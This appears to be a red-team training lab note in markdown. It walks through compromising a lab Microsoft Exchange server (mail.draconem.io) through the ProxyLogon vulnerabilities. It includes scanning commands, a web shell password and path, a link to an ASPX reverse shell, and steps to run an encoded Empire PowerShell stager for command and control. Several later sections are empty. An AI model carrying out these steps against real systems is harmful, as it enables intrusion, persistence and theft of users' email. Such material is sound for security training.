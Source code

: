 #### Tags: [[12 - Command and Control (TA0011)]] | [[Creating and Testing Payloads]]
## Objectives

    Scan the Microsoft Exchange server
    Use a web shell to interact with the mail server
    Execute an Empire stager on the mail server
    Export user emails
    Read user emails for target intelligence
### Scan Microsoft Exchange
```markdown
# Scan mail server
cd /labs/sec-3/initial-access/

curl https://raw.githubusercontent.com/GossiTheDog/scanning/main/http-vuln-exchange.nse -o http-vuln-exchange.nse

nmap --script http-vuln-exchange.nse mail.draconem.io
```
#### ProxyLogon
- ProxyLogon is the name for CVE-2021-26855 and CVE-2021-27065. CVE-2021-26855 is a vulnerability on Microsoft Exchange that allows authentication bypass. 
- CVE-2021-27065 is a post authentication file write vulnerability. When chained together, they allow remote code execution by allowing an adversary to bypass authentication and write a web shell to the server.
![[Pasted image 20240324024102.png]]
###### Red Team Tip: Only use web shells wiSth authentication, otherwise others could leverage your web shell.
- Note: Depending on client we can request White cell to allow us to simulate exploitation to avoid take down production servers.

### Launch [[Empire C2#Create an Empire listener]]
- Launch Empire and start an http listener on port 8080 for your tun0 interface. 

### Create [[Creating and Testing Payloads#*Payload * Create interactive HTTP Powershell Stager|Payload: Create interactive HTTP Powershell Stager]]


### Interact with the Web Shell
- Navigate to URL to explore the webshell as it comes with a lot of functionality!
	- Password: `#$pwn3daspx#$h3ll` to authenticate to the web shell

![[Pasted image 20240324031111.png]]
#### Notes
- IIS Default Directory: `C:\Inetpub`
- Exchange Default Directory: `C:\Program _Files_\_Microsoft_\_Exchange Server_\V15\ClientAccess\Owa`
- Find a file via PowerShell `Get-ChildItem -Path 'C:\' -Recurse -Include 'rt-webshell-xcowe83.aspx' -File -Force`
- WebShell Path on Target system: `C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\rt-webshell-xcowe83.aspx`
- ASPX WebShell on Private GitHub: [**AspxRevShell**](https://github.com/raghavtalwar/Arsenal/tree/main/AspxRevShell)
 
### Deploy Agent on mail.draconem.io
*Goal:* We want to get an agent/beacon on this Microsoft Exchange system in order to bring more tools and capability.
1. Click Cmd command in the top navigation window. 
2. Paste your PowerShell stager into Statements to spawn a new agent. 
3. Click carried out and check starkiller for a new agent.
**Remember:** The Statements field should start with `/c powershell -noP -sta -w 1 -enc ...`
### Enumerate Users


### Export User Emails


### Read User Emails


#### Notes | Bonus


## Conclusion